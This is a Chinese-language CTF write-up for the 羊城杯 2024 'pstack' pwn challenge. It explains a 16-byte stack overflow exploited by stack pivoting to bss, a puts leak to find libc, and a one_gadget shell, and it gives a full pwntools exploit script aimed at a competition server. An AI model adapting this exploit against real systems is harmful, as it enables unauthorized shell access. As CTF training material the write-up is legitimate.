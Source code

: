 # pstack_wp

[羊城杯_pwn_pstack](https://ycb2024.dasctf.com/324/competePage/570)，这是一道利用栈迁移打ret2libc题

来自ssot战队

## 分析

打开IDA，可见程序很简单三个函数

![image-20240827170051434](image/image-20240827170051434.png)

vuln函数分析，栈空间分配0x30，而read读0x40，造成0x10字节溢出

![image-20240827170317367](image/image-20240827170317367.png)

没有system函数和'/bin/sh'，先考虑ret2libc

获取rop链

![image-20240827171637355](image/image-20240827171637355.png)

确定迁移到bss段

![image-20240827171914029](image/image-20240827171914029.png)

构造payload，增加溢出长度，获取已有puts的真实地址从而计算出基地址

![image-20240827172302223](image/image-20240827172302223.png)

接下来常规操作，进行拿shell

## exp

```python
from pwn import *
context(log_level='debug',os='linux',arch='amd64')
io=remote('139.155.126.78',39903)
elf=ELF('./pwn')
libc=ELF('./libc.so.6')
#函数地址
puts_plt=elf.plt['puts']
puts_got=elf.got['puts']
main=elf.sym['main']
#rop地址
bss=0x601310
rdi=0x400773
read=0x4006C4
rbp=0x4005b0
#利用栈迁移，获取puts真实地址，并计算偏移地址
io.send(b'a'*0x30+p64(bss)+p64(read))
io.send(b'a'*0x30+p64(bss+0x30)+p64(read))
io.send(p64(bss+0x40)+p64(rdi)+p64(puts_got)+p64(puts_plt)+p64(main))
puts_addr=u64(io.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))
libc_base=puts_addr-libc.sym['puts']
print(hex(libc_base))
#拿shell
r12=libc_base+0x35731
getshell=libc_base+0xebd38
io.send(b'a'*0x30+p64(bss+0x100)+p64(read))
io.send(b'a'*0x30+p64(bss+0x130)+p64(read))
io.send(p64(bss+0x140)+p64(r12)+p64(0)+p64(getshell))
io.interactive()
```

来自ssot战队